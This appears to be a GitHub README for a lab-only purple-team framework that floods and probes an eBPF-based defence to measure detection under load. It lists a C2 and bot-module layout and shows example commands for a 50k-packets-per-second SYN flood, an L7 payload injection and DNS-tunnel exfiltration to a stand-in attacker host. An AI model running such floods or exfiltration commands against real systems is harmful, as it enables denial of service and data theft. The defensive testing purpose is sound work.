

# 🌪️ MAELSTROM BREACH

**Version 1.0 — Chaos at Scale**

> Purpose-built **adversary simulation framework** executed exclusively in an **isolated laboratory** to validate the **resilience, performance, and detection fidelity** of eBPF-based security architectures.

---

## 🧭 Executive Summary

**Maelstrom Breach** is the **offensive stress-testing counterpart** to *Sovereign Shield*.

While *Genesis* validated **capability**, **Maelstrom validates resilience** under:
- sustained pressure
- distributed attack noise
- mixed low-and-slow + high-volume activity

This project demonstrates:
- Large-scale attack orchestration
- Kernel-level enforcement under load
- Detection fidelity preservation during noise
- Purple Team feedback loops grounded in **measured metrics**

> ⚠️ All activity is performed **exclusively in an isolated lab** for defensive validation.  
> No production, external, or unauthorized systems are involved.

---

## 🎯 Objectives (Measured, Not Assumed)

| Objective | Validation Signal |
|---------|-------------------|
| Multi-vector attack orchestration | Concurrent DNS tunneling, L7 abuse, SYN pressure |
| eBPF performance stress | Sustain **10k–50k packets/sec** without kernel instability |
| Detection fidelity | Low-and-slow exfiltration visible under heavy noise |
| Automated response | **Time-to-quarantine** measured via Ansible |
| Resource impact | CPU, syscall pressure, latency tracked during enforcement |

---

## 🧱 Lab Architecture (Red vs Blue)



## Structure

Kali machine (the brain)
```
maelstrom-red-team/
├── c2-controller/          # The brain (resides only on Kali)
│   ├── maelstrom_c2.py     # Main bot management script
│   ├── config.yaml         # List of Ubuntu bot IP addresses
│   └── web_panel/          # (Optional) Flask/FastAPI interface to control the attack
├── bot-scripts/            # Payload executed on Ubuntu nodes
│   ├── agent.py            # Lightweight agent listening for C2 commands
│   ├── requirements.txt    # Dependencies: Scapy, Requests, etc.
│   └── modules/            # Attack modules
│       ├── syn_flood.py    # Phase 1: L3/L4 Network Pressure
│       ├── l7_injector.py  # Phase 2: API/Application Layer Abuse
│       └── dns_exfil.py    # Phase 3: DNS Tunneling & Data Exfiltration
├── payloads/               # Malicious data files
│   ├── malicious_payload.json
│   └── sensitive_data.txt
├── scripts/                # Lab deployment helpers
│   └── deploy_bots.sh      # SSH script to deploy agents to Ubuntu targets
└── README.md               # Offensive operations documentation
```

## 🧠 What Makes Maelstrom Different

Maelstrom is not about exploitation success.
It focuses on system behavior under adversarial stress.

Core Characteristics
- Distributed: multiple WAN/LAN origins
- Method-aware: `HTTP GET / POST / PUT / DELETE`
- Stateful evasion: malicious intent hidden in legitimate-looking traffic
- Volume + subtlety: noise designed to obscure exfiltration attempts

## 🛠️ Attack Components (Lab-Scoped)

| Tactic            | Technique                  | Lab Simulation                 |
| ----------------- | -------------------------- | ------------------------------ |
| Discovery         | Network Service Scanning   | Internal service enumeration   |
| Initial Access    | Exploit Public-Facing App  | Vulnerable lab-hosted services |
| Command & Control | Application Layer Protocol | HTTP/DNS-based signaling       |
| Exfiltration      | Alternative Protocol       | DNS TXT tunneling attempts     |
| Impact            | Endpoint / L7 DoS          | Malformed request flooding     |


## 🔁 Purple Team Feedback Loop

Maelstrom exists to improve the Shield.

| Phase   | Observation                             |
| ------- | --------------------------------------- |
| Attack  | Sustained POST flood on `/api/v1/vault` |
| Detect  | Spike in syscalls & denied operations   |
| Enforce | Traffic dropped at kernel hook          |
| Analyze | CPU & latency thresholds evaluated      |
| Improve | Policy logic refined                    |

> Outcome: Enforcement preserved detection fidelity while maintaining acceptable latency under sustained load.

## 📸 Execution — The War Room

***Reproducible & Transparent***

This section documents each operational phase to demonstrate that every packet is observed, reasoned upon, and accounted for.

### 1️⃣ Phase One — Reconnaissance & Pressure Testing

Attacker Machine: Kali Linux
Target: Sovereign Shield Load Balancer

#### 🔧 Command Executed (Kali Linux)

```
# Distributed SYN pressure test to evaluate eBPF hook performance
maelstrom-cli attack \
  --type syn-flood \
  --pps 50000 \
  --threads 12 \
  --target lb.sovereign.lab

```

#### 🧠 What Happens
- 50,000 packets/sec generated
- Kernel softirq handling observed
- Sentinel Trace monitors syscall pressure

#### 🎯 Goal
Identify the threshold where eBPF map updates degrade — without crashing the kernel.


### 2️⃣ Phase Two — Layer 7 Method Abuse

**Attacker Nodes:** Ubuntu Server (Bot Nodes)
**Target:** Protected API behind Zero Trust controls

#### 🔧 Command Executed (Ubuntu Server Bot)

```
python3 maelstrom/l7_payload_injector.py \
  --url http://shield-api.lab/v1/data \
  --method POST \
  --payload malicious_payload.json \
  --stealth-mode

```
#### 👁️ Observation
- Hubble shows massive legitimate `GET` traffic
- `POST` requests denied at L7 by policy
✅ Confirms method-aware enforcement and real-time reasoning.

### 3️⃣ Phase Three — Lateral Movement & Exfiltration
Simulated Compromised Workload: Kubernetes Pod

#### 🔧 Command Executed (Inside Compromised Pod)

```
# Attempt DNS-based data exfiltration
tcp-over-dns \
  --server attacker.maelstrom.lab \
  --data "exfil_token_12345"

```

### 🛡️ Defense Response

- Unauthorized DNS destination detected
- `sys_connect` syscall captured
- Ansible triggers immediate isolation
- Network interface terminated

| Metric          | Baseline | Under Attack | Result        |
| --------------- | -------- | ------------ | ------------- |
| Kernel CPU      | ~2 %     | ~15 %        | Stable        |
| Network Latency | <1 ms    | ~12 ms       | Maintained    |
| Detection Rate  | N/A      | 99.8 %       | Preserved     |
| Response Time   | N/A      | <2.5 s       | Node isolated |

### 🧠 MITRE ATT&CK Mapping

| Tactic            | Technique                      | ID        | Evidence                   |
| ----------------- | ------------------------------ | --------- | -------------------------- |
| Reconnaissance    | Network Service Discovery      | T1046     | Internal scanning attempts |
| Initial Access    | Exploit Public-Facing App      | T1190     | Malformed API payloads     |
| Command & Control | Application Layer Protocol     | T1071.001 | HTTP/DNS signaling         |
| Exfiltration      | Exfiltration Over Alt Protocol | T1048.003 | DNS tunneling              |
| Impact            | Network Denial of Service      | T1498     | Sustained L7 flooding      |


## 📊 Final Outcome — What This Proves
- ✔️ Kernel-level enforcement scales under pressure
- ✔️ Detection signals remain visible during noise
- ✔️ Automated response meets measured thresholds
- ✔️ Adversary simulation strengthens defensive design


## 🔜 Future Evolution
- Adaptive attack logic (behavioral mutation)
- Encrypted C2 with sidecar-aware inspection
- Long-duration soak tests (multi-hour resilience)

## ⚠️ Disclaimer

This project demonstrates **defensive security engineering, detection resilience, and kernel-level enforcement validation** using adversarial simulation in a **strictly controlled laboratory environment**.
